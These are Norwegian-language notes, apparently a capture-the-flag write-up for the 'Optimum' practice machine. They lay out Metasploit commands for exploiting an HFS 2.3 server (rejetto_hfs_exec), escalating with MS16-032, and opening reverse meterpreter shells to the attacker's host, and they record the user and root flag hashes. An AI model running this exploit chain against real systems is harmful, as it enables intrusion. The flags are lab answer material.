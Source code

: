 ## optimum 10.10.10.8

**windows server 2012 x64**

nmap port 80

hfs 2.3 server. finnes exploit

`use exploit/windows/http/rejetto_hfs_exec`

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp
```

`Import-Module ./lol.ps1`

`Invoke-MS16-032`

gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`

skal ikke være patchet i følge `get-hotfix`

`PS C:\Users\kostas\Desktop>get-executionpolicy`

`Bypass`

skal være mulig å execute hva som helst

`set target 1`**- viktig for å sette target til x64**

ting som må stemme:

**må ha et x64 meterpreter shell**

**må sette target til x64**

**må sette payload til x64/meterpreter**

`set payload windows/x64/meterpreter/reverse_tcp`

`use exploit/windows/http/rejetto_hfs_exec`

`set srvhost 10.10.12.238`

`set lhost 10.10.12.238`

`set rhost 10.10.10.1`

`set lport 4444`

`exploit`

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

`set session 1`

`set target 1`

`set lhost 10.10.12.238`

`set lport 4444`

`exploit`

root.txt **51ed1b36553c8461f4552c2e92b3eeed**

